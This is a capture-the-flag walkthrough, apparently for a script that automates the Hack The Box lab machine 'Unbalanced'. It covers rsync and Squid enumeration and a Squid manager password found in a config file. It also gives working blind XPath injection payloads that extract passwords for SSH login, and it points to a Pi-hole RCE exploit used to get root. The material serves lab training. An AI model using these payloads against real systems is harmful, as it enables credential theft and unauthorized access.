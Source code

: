 # Automated Script to complete the Unbalanced box

## User Details:    
* We enumerate the initial set of entry points:
```
Nmap scan report for 10.10.10.200
Host is up (0.095s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
873/tcp  open  rsync
3128/tcp open  squid-http
```
* port 873 is open
* rsync --list-only rsync://10.10.10.200:873 shows us a dir named conf_backups
* Pull files using: rsync -r rsync://10.10.10.200:873/conf_backups .
* Use encfs2john.py to create a crackable hash for the backups
* After retrieving backup password, we can decrypt it with encfs
* Inside squid.conf we find credentials:
```
cachemgr_passwd Thah$Sh1 menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min
```  
* We can talk to squid proxy on 3128 using squidclient
* Command displays manager options in squidclient:
```
squidclient -w 'Thah$Sh1' -h intranet.unbalanced.htb mgr:menu 
```
* One interesting entry is in mgr:fqdncache:
```
Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
10.10.10.200                                   N  -2826   0
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
```
* Create entry in /etc/hosts for intranet.unbalanced.htb 
* Set upstream proxy to intranet.unbalanced.htb port 3128
* Navigate to intranet.unbalanced.htb to view a company page representing internal website
![Normal Website](./images/page1.png "Normal Login")
* Upon entering an invalid user name and password, we do not receive any error messages from the application
* Upon viewing fqdncache we infer the layout is as follows:
![Layout](./images/diagram.png "Layout of Unbalanced")
* We can verify this by attempting to navigate to the unlisted instance of the application at 172.31.179.1
![Lingering Website](./images/page2.png "Host taken down message")
* The main difference between this host and the other two that are listed in the fqdncache is an error message
![Error Message](./images/page3.png "Invalid login error message")
* This tips us off on focusing on the minor difference between the applications


### Attack Path
* Site is vulnerable to XPath injection. A query such as:
```
Username=sarah&Password=test%27+or+'a'%3d'a
```
* Will display results for all users
* The constraint here is that there is more data in the XML file that we need, the password specifically
* We therefore have a blind injection point and have to first determine the length of each users password
```
Username=rita'+and+string-length(Password/text())%3d11+or+'a'%3d'a&Password=s
```
* Then we have to iterate through 0..length, and iterate through every character
* For example: If an error message is not displayed for length = 10, position = 0, and char = 'c', then we know 'c' is the first character
* Then we would restart at postition 1 and repeat the same steps until we discover the next character in the password


### Automated User
* The automated script uncover the passwords for all users through the blind XPath injection point 
* First it will determine the length of the passwords for each user using
```
payload = "%s' and string-length(Password/text())>%i or 'a'='a" % (username, daLength)
```
* Then it will iterate through string.printable and observe the corresponding response message to determine if the correct character in the password was found
```
payload = "%s' and substring(Password/text(),%i,1)='%s' or 'a'='a" % (user,length,p)
```
* It will then iterate through the username/password list and attempt to SSH into the host
* Once successful it will enter interactive mode

Running the script with -t user
 ![Automated User Flag](./images/unbalanced-user.gif "User Step")

 
## Root Details:
* After we gain a user shell, we see that there is a service bound to 8080. Netstat was not on the host so we use 
/proc/net/tcp
* Port forward 8080 to ourselves so we can access the web UID
* Running pihole - based on enumeration we can try https://frichetten.com/blog/cve-2020-11108-pihole-rce/ 
* Executing through the exploit with modifications grants us root


### Automation root
* SSH into the box using the password discovered in the user steps
* Port forward 8080 to a local port specified in the script 
* Set up series of listener threads to serve content at each phase, as illustrated in the blog post above
* Once we land on the box it will perform the last step to SSH into root using creds found after gaining RCE from the pihole exploit

Running the script with -t root
![Automated root Flag](./images/unbalanced-root.gif "Root Step")
